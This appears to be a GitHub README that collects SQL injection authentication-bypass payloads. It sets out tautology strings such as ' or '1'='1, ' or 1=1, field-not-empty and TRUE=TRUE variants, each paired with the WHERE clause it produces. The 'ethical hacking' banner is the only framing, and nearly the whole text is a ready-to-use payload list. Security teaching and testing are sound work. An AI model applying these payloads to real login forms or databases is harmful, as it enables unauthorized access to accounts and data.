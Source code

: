 # SQL INJECTION 
### PAYLOAD AND EXAMPLE QUERY

![https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red](https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red)

> ! Attention, This Repository For Ethical Hacking 

### 1. Bypass SQL Always True 

Example of QUERY SQL starting from WHERE, please develop and analyze it yourself.

> Based on 1=1 is Always True 

| NO|PAYLOAD  | EXAMPLE QUERY |
|--|--|--|
|1| ```' or '1'='1``` |```WHERE username = '' or '1'='1' AND password = '' or '1'='1';```|
|2| ```' or 1=1``` |```WHERE username = '' or 1=1 AND password = '' or 1=1;```|
| | |```WHERE name  = '' or 1=1;```|
|3 | ```or 1=1``` |```WHERE id = 1 or 1=1;```|
| | |```WHERE id = NULL or 1=1;```|

> Based on Field Name not null is Always True

Use the Field name for payload

|NO|PAYLOAD  | EXAMPLE QUERY |
|--|--|--|
|1| ```' or username!=''``` |```WHERE username = '' or username!='' AND password = '' or password!='';```|
| | |```WHERE country_id = '' or country_id != '';```|;
> Based on FALSE Not TRUE is Always True

|NO|PAYLOAD  | EXAMPLE QUERY |
|--|--|--|
|1| ```' or FALSE!=TRUE``` |```WHERE username = '' or FALSE!=TRUE AND password = '' or FALSE!=TRUE;```|

> Based on TRUE=TRUE is Always True

|NO|PAYLOAD  | EXAMPLE QUERY |
|--|--|--|
|1| ```' or TRUE=TRUE``` |```WHERE username = '' or TRUE=TRUE AND password = '' or TRUE=TRUE;```|

